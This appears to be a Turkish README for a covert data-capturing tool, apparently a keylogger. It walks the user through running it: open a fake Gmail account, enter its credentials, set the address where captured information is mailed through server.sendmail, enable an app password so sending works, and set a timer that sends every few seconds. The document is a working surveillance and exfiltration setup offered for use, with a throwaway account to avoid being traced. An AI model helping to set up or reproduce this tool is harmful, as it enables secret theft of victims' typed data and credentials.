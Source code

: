 PROGRAMI ÇALIŞTIRMADAN ÖNCE ŞU ALANLARI DÜZENLEYİNİZ(ÖNERİ SAHTE BİR MAİL ADRESİ AÇIN)

1'İNCİ ALAN ARACIN GÖNDERİM YAPACAĞI MAİL ADRESİ BİLGİLERİ : 
sender_emmail = "mail@gmail.com" //Gönderim yapacak mail adresi
sender_password = "password" //Mail Şifresi
2'İNCİ ALAN ARACIN YAKALADIĞI BİLGİLERİ GÖNDERECEĞİ MAİL ADRESİNİ YAZINIZ:
server.sendmail("Gönderim Yapacak Mail Adresi","Gönderilecek Mail Adresi",mesaj)
MAİL ŞİFESİNİ GİRDİĞİNİZDE ÇALIŞMAYABİLİR BUNUN İÇİN İLK ÖNCE AÇTIĞINIZ MAİL ADRESİNE GİDİP İKİ FAKTÖRLÜ AÇIP ORADAN UYGULAMA ERİŞİMİNİ AKTİF EDİNİZ.
3'ÜNCÜ ALAN KAÇ SANİYE ARALIKLA GÖNDERİLECEĞİNİ BELİRLEYİN:
timer = threading.Timer(5,dallanma) // Kaç Saniye aralıkla gönderim yapılacağını belirleyiniz öneri 5 10 sn
